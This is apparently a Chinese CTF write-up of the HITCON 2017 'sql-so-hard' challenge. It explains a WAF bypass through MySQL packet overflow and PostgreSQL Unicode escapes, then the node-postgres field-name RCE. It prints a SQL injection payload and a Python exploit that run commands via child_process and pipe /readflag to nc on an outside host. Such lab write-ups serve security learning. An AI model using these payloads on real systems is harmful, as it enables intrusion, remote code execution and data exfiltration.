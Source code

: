 最近实在是太多事情了Orz，所以没有及时更新复现。。(其实是偷懒

分享自制Dockerfile：[Github](https://github.com/Pr0phet/hitcon2017Dockerfile/tree/master/hitcon-ctf-2017/sql-so-hard) 

这道题涉及到的知识点：

- mysql的*max_allowed_packet*
- node-postgresql的一个RCE
- postgresql中语句返回值的问题

本题连接了两个数据库 一个是mysql--用作waf之后ip和payload记录，另外一个是postgresql--用作注册时记录用户名称和密码

因为主要是分析大大的payload为主，这里的考察点主要是node-postgresql近期的一个RCE漏洞(https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability)

这个洞详细的分析P神已经在博客贴出来了(https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)
并且复现环境p神也已经写了Dockerfile(https://github.com/vulhub/vulhub/tree/master/node/node-postgres)

简单来说就是客户端在获取表字段的时候因为转译不完全导致原本应该拼接在代码中的字段名被构造成了恶意代码传入了Function()这个类，这个类类似于PHP中的create_function，因为函数体可控 ,也就造成了命令执行。然后官方也有转译，但是官方的转译只是把**' --> \\'** ， 所以在前面加个\\就能逃逸出来（逃逸后的字符串就是 **\\\\'**）

所以这里的目的就很明确了 --> 通过postgresql的注入造成代码拼接命令执行
ß
但是会遇到两个问题：
1. 这里postgresql存在注入 但是首先得绕过一大堆关键字waf
2. 我们的ip不能在mysql留下记录 （这里的waf思路是如果有keyword则插入记录 后面再查询，如果有记录则拦截）

思路：
- 造成Mysql插入出错
提交一个很长很长的查询（默认包大小为16M），超出max_allowed_packet造成连接关闭，sql语句就不会执行 官方文档：![max_allowed_packet](http://upload-images.jianshu.io/upload_images/6949366-bb83cdbe939a1425.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
这样没有插入的话就不会查询到记录，即达到**绕过waf**的目的

- 或者使用postgreSQL支持将16进制的值转换成Unicode字符、并且可以自定义转译符的[特性](https://www.postgresql.org/docs/9.6/static/sql-syntax-lexical.html)来将关键字全部替换掉, 从而达到**绕过waf**的目的, Eg: 国外大佬的[wp](https://github.com/sorgloomer/writeups/blob/master/writeups/2017-hitcon-quals/sql-so-hard.md)(其中空格使用\t绕过,自定义转译符为感叹号)
```
','')\tON\tCONFLICT\t(username)\tDO\tUPDATE\tSET\tusername=''\tRETURNING\t1\tAS\tU&"!005c!0027+(r=process.mainModule.require,l=!0022!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022!002freadflag|nc!0020123.123!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022.123.123!00201234!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(r(!0022child_process!0022).execSync(l))]!002f!002f"\tUESCAPE\t'!';
```
- 构造RCE代码[2017-08-12 - code execution vulnerability](https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability)
目的是构造相应的字段名称造成RCE（详细原因请看P神关于漏洞的[分析](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)）
这里会出现新问题：
  - 不能控制insert的字段名，并且insert没有返回值(?)
  - 这里利用了分号切割sql语句，不能通过;闭合sql语句的方式构造RCE

这里阅读 [文档](https://www.postgresql.org/docs/9.5/static/dml-returning.html), postgresql允许在insert或者update后选择一个或多个字段返回, 所以在这里就有可控字段名了, 使用格式 ``insert into xx(aa,bb) values('cc','dd') returning  ee as ff;``
最后就是构造RCE中P神在博客中提到的
> 单双引号都不能正常使用，我们可以使用es6中的反引号
>``Function``环境下没有``require``函数, 不能获得``child_process``模块, 但是可以通过``process.mainModule.constructor._load``来代替require
> 一个fieldName只能有64位长度, 所以通过多个fieldName拼接来完成利用

最后是orange大大的exp:

```python
from random import randint
import requests

# payload = "union"
payload = """','')/*%s*/returning(1)as"\\'/*",(1)as"\\'*/-(a=`child_process`)/*",(2)as"\\'*/-(b=`/readflag|nc 10.188.2.20 9999`)/*",(3)as"\\'*/-console.log(process.mainModule.require(a).exec(b))]=1//"--""" % (' '*1024*1024*16)


username = str(randint(1, 65535))+str(randint(1, 65535))+str(randint(1, 65535))
data = {
            'username': username+payload, 
                'password': 'AAAAAA'
                }
print 'ok'
r = requests.post('http://10.188.2.20:12345/reg', data=data);
print r.content
```

参考:

https://github.com/orangetw/My-CTF-Web-Challenges

https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html

https://github.com/vulhub/vulhub/tree/master/node/node-postgres

https://www.postgresql.org/docs/9.6/static/sql-syntax-lexical.html

https://www.postgresql.org/docs/9.5/static/dml-returning.html

https://github.com/sorgloomer/writeups/blob/master/writeups/2017-hitcon-quals/sql-so-hard.md

https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability